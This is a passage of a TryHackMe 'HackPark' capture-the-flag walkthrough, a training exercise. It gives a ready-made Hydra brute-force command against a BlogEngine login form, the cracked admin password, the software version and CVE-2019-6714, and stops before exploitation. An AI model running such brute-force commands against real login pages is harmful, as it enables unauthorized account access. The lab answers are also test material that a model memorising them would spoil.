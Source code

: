 # [HackPark - TryHackMe](https://tryhackme.com/room/hackpark)

Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine!

## Credits

- Created by [tryhackme](https://tryhackme.com/p/tryhackme) and [str3g4tt4](https://tryhackme.com/p/str3g4tt4)
- Room type: premium

## Deploy the vulnerable Windows machine

- `nmap -sV <target ip>` to see which port the web server is hosted on

### Whats the name of the clown displayed on the homepage?

> The name of the clown on the homepage is **pennywise**

## Using Hydra to brute-force a login

### What request type is the Windows website login form using?

- Using a proxy in BurpSuite or web browser, capture sign in request

> The login form uses an HTTP **POST** request

### Guess a username, choose a password wordlist and gain credentials to a user account!

- The raw request (using demo credentials admin:password) is:

```
__VIEWSTATE=mxGh%2BdQ%2F%2BpArh2IP5hEYlvCLap4USWw8NMWpW%2FCdFy6ebKKcxpebQBn520XB%2B2JT4UkTMLEKXBo45EPGoXJV66%2Burs2DXjDhcW1YOsSeJnTn%2FUSqN83X99YkfN%2Bj1wq5fZmYNARCiCOdguXEK4cGaW9Pk0uvyRYkE0%2FL8raUHPQvtxFy&__EVENTVALIDATION=1c2yh3maTjYr195e6nm19EPl0ltYHdCSj3UZlOmOgjsz1oiEzPAjPecO6Jz8lbmApBJaNxurYq2wLuHkXw6ucLOBRfCJKpDlcLjTKIDntLkWs7k7pMPaNyTNTqVsxWqgWyjwK2l3PhC7LG85PlYneTsJw1hRDr2IIximKRT0VfChSgfb&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=password&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```

- Craft Hydra command with the request
    - `hydra -l admin -P /usr/share/wordlists/rockyou.txt <target ip> http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=mxGh%2BdQ%2F%2BpArh2IP5hEYlvCLap4USWw8NMWpW%2FCdFy6ebKKcxpebQBn520XB%2B2JT4UkTMLEKXBo45EPGoXJV66%2Burs2DXjDhcW1YOsSeJnTn%2FUSqN83X99YkfN%2Bj1wq5fZmYNARCiCOdguXEK4cGaW9Pk0uvyRYkE0%2FL8raUHPQvtxFy&__EVENTVALIDATION=1c2yh3maTjYr195e6nm19EPl0ltYHdCSj3UZlOmOgjsz1oiEzPAjPecO6Jz8lbmApBJaNxurYq2wLuHkXw6ucLOBRfCJKpDlcLjTKIDntLkWs7k7pMPaNyTNTqVsxWqgWyjwK2l3PhC7LG85PlYneTsJw1hRDr2IIximKRT0VfChSgfb&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:failed"`

> 1 valid password is found: **1qaz2wsx**

## Compromise the machine

### Now you have logged into the website, are you able to identify the version of the BlogEngine?

> The BlogEngine version is **3.3.6.0**

### What is the CVE?

> A quick google search of the BlogEngine version gives us **CVE-2019-6714**

### Who is the webserver running as?



